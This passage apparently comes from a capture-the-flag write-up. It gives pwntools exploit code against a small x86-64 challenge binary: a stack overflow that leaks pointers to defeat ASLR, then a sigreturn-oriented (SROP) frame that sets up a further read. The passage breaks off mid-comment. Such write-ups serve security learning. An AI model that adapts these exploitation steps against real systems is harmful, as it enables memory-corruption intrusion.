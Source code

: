 ```python
syscall   = elf.sym._start + 27 # 0x401016
ret2read  = elf.sym._start + 22 # 0x401016
ret2write = elf.sym._write + 17 # 0x40102f
_start    = elf.sym._start + 5  # we want to skip pushing _write to the stack

OFFSET = 8
SIGRET_FRAME_SIZE = 248
SLEEP = 1
```

Building our first overwrite of the stack:

```python
"""
Overflow the next two return addresses:

First, ret to (mov eax,0x1) to cause a write syscall. Doing this
makes execution skip the part of _write that sets the output length
to just 8. This makes it print the 0x12c bytes set at 401011,
causing pointer leaks

Next, ret to _start+5 to skip pushing _write at 0x401000. This also
sets up the binary to begin listening again with an 8 byte buffer,
putting it back into an overflowable/vulnerable state.
"""
log.info("Sending initial payload to leak pointers")
data = b"A" * OFFSET
data += p64(ret2write) # Leak pointers
data += p64(_start)    # Reset
p.send(data)
```


Now we deal with the data that we've forced the application to echo back to us:

```python
"""
The 4th giant-word is an environment variable pointer.
'&' it with 0xfffffffffffff000 to find the beginning of the page.
This is our new, known base/offset that remains consistent between
runs, even with ASLR
"""
leaks = p.recv()
pointer = leaks[3*8:4*8]
stack_leak = u64(pointer) & 0xfffffffffffff000
log.warn('leaked stack: ' + hex(stack_leak))
```

We can create a function that will generate us our SIGRET frame to keep the code a little cleaner:

```python

"""
Build a SIGRETURN SYS_read frame that reads 2000 bytes.
"""
def sigreturn_read(read_location):
    frame = SigreturnFrame()
    frame.rax = constants.SYS_read
    frame.rdi = constants.STDIN_FILENO
    frame.rsi = read_location
    frame.rdx = 2000
    frame.rsp = read_location
    frame.rip = syscall
    return bytes(frame)

"""
Overflow again thanks to the SYS_read we setup from the 1st payload
```